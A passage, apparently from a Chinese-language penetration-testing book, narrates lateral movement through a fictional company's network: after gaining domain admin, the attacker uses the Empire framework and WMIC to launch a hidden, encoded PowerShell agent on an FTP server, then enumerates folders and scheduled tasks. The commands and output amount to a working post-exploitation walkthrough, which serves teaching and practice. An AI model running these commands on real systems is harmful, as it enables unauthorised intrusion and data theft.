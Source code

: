
第二个域也拿下了！

### FTP服务之外

现在我们拥有了一个域管理帐户，我们只需使用与以前相同的技巧在属于GBSales的服务器上生成一个新的Empire代理。

选哪一个？

还记得从GBSHOP（10.30.30.210）接收销售数据的FTP服务器吗？我们最终可以从网络的角度（从GBShop DC）和系统的角度（我们是GBSALES的域管理员）跟踪和访问服务器。我们使用WMI在此服务器上生成新代理：
```
(Empire: DCshop) > shell wmic /node:SL0210.GBSALES.CORP process call
create "powershell.exe -NoP -sta -NonI -W Hidden -Enc WwBTAHkAcwB[…]"
```

然后与代理交互并直接转到Windows上FTP使用的默认文件夹：
```
(Empire: SalesFTP) > dir C:\inetpub\ftproot\
(Empire: SalesFTP) >
```

又是空！我们就是没法拿到这些文件。尽管如此，我们确信他们被送到这里，所以必须有一种任务，定期将他们运送到另一个地点。让我们列出此计算机上的所有计划任务：
```
(Empire: SalesFTP) > shell schtasks /Query /FO LIST /V
(Empire: SalesFTP) >
Job started: Debug32_ks12qv
Folder: \
HostName: SL0210
TaskName: \centralied_upload
Status: Ready
Author: GBSALES\administrator
Task To Run: "C:\Program Files\Scripts\centralized_upload.bat"
[…]
Comment: centralize all uploads to the big Iron
Scheduled Task State: Enabled
[…]
The command completed successfully.
```

找到了！
```
(Empire: SalesFTP) > shell type "C:\Program
Files\Scripts\centralized_upload.bat"
```
![](chap5/chap5-5.jpg)
